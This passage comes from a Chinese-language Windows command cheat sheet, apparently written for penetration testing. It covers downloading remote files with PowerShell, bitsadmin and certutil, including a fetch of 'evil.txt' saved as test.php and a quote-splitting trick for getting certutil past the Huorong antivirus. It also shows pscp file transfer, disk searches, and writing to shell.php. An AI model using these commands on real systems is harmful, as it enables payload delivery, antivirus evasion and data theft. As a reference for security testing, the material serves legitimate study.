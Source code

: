     ```cmd
    powershell -c "(new-object System.Net.WebClient).DownloadFile('<remote_file>','<file>')"
    powershell (new-object System.Net.WebClient).DownloadFile('<remote_file>','<file>')
    
    bitsadmin /transfer n <remote_file> <绝对路径>
    
    certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php
    
    绕过火绒下载文件，单词加双引号，中间可以插入任意数量的成对双引号
    "c""e""r""t""u""t""i""l" -"u""r""l""c""a""c""h""e" -split -f https://url/1.exe 1.exe
    ```

  - 小工具

    ```cmd
    echo y | pscp.exe -pw ssh密码 -P ssh端口  "单个文件路径"    user@ip:保存路径
    echo y | pscp.exe -pw ssh密码 -P ssh端口  -r "目录路径"    user@ip:保存路径
    ```

- 文件/目录查找

  ```cmd
  # 列出所有文件
  dir /b /s c:\ > c.txt
  
  # 查找文件
  dir c:\ /s /b | find "win.ini"
  
  # 递归搜索E盘，后缀为exe，修改日期>=2023/12/16的文件
  FORFILES /P E:\ /S /M *.exe /C "cmd /c echo @path" /D +2023/12/16 > res.txt
  ```

- 文件写入

  ```cmd
  echo "" >> shell.php
  ```

  ```cmd
  certutil编码文件 certutil -encode 1.txt output.txt
  certutil解码文件 certutil -decode output.txt input.txt
  ```

  ```cmd
  powershell -c "'文件内容' | Out-File input.txt -Append"
  
  # 写入
  powershell -c "add-content 文件 -value \"文件内容\""
  # 去除换行
  powershell "-join((gc -LiteralPath \"文件\"))"
  ```

- 解压缩

  - windows自带命令

    单个文件

    ```cmd
    # 解压
    expand -r file.zip extract_path
    